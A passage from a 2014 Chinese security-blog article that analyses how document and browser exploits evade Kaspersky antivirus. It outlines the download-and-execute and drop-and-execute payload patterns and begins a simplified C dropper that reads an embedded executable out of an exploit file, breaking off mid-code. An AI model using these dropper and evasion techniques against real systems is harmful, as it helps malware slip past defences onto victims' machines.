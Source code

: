 # 漏洞利用与卡巴斯基的对抗之路

2014/09/04 12:24 | [夜未央](http://drops.wooyun.org/author/夜未央 "由 夜未央 发布") | [二进制安全](http://drops.wooyun.org/category/binary "查看 二进制安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 致谢

* * *

特别感谢各位朋友在这一年中对自己工作的支持，无以为报，只能凑合写一些文章来一搏各位的欢心，如有不对之处还请各位不吝指出，感激不尽！

首先感谢以下朋友给予自己的帮助：

泉哥

没谱

instruder

我可爱的同事们

## 0x01 题记：

* * *

主题是关于漏洞利用与卡巴斯基之间的种种对抗，之所以选择卡巴斯基是因为其在众多杀毒软件中为一个典型，从 04、05 年的内存查杀到最新流行的行为检测云查杀，卡巴斯基一直紧跟时代步伐并且针对漏洞利用的查杀也越来越准确有效，与诺顿、Bitdefender 号称是最难绕过的杀软之一。杀毒软件对文档类漏洞和浏览器漏洞的查杀最为严格，此篇也以上述两类漏洞利用作为示例进行阐述。

漏洞利用技术的发展也是对抗杀毒软件查杀技术的发展，其中可见各种奇技淫巧，令人目不暇接，其中针对卡巴斯基这款杀毒软件的绕过方法更是让人眼前一亮，基本上绕过卡巴斯基的方法对于其他杀软基本可以做到通杀，这也是分析总结漏洞利用与卡巴斯基对抗的目的所在，以一个旁观者的角度来分析两者之间的对抗，更能清晰的理解漏洞利用与杀毒软件之间的对抗发展，管中窥豹可见一斑。

文章中使用的相关代码都是从实际的漏洞利用实例中提取精简而来，并不会实际提供相关漏洞样本，此处还请大家多多见谅。废话不多说，下面开始正题：

## 0x02 漏洞利用的基本形式

* * *

MS Office 漏洞的没落，Adobe Reader PDF 漏洞的方兴未艾，Flash Player 漏洞的强势崛起以及目前浏览器 UAF 漏洞的中兴，漏洞的形式多种多样但是漏洞利用的基本思路倒没有太大的变化，无非两种形式：下载并执行和释放并执行，可谓万变不离其宗，漏洞利用的最终目的就是把一个程序执行起来，杀毒软件的查杀目的为把这种行为检测出来报警并阻止其运行。 漏洞利用最终执行的伪代码如下：

```
/***********************************************************************/
/* 演示漏洞利用伪代码                                                     */
/***********************************************************************/
#include <windows.h>
void main()
{
    HANDLE hFileHandle;     //主体文件句柄
    HANDLE hExeFile;        //exe 程序句柄
    char exploitName[MAX_PATH] = "bin.xxx"; // Exploit 主体文件路径
    char tempPath[MAX_PATH] = {0};
    DWORD dwWrite =0;
    DWORD exeBufferOffset = 0x1000;     //exe Exploit 主体文件中的偏移

    char exebuffer [1024] = {0};        //缓冲区

    hFileHandle = CreateFileA(exploitName,      //Exploit 主体文件路径
                            GENERIC_READ,
                            FILE_SHARE_READ,
                            NULL,
                            OPEN_EXISTING,
                            NULL,
                            NULL);
    SetFilePointer(hFileHandle,
                    exeBufferOffset,
```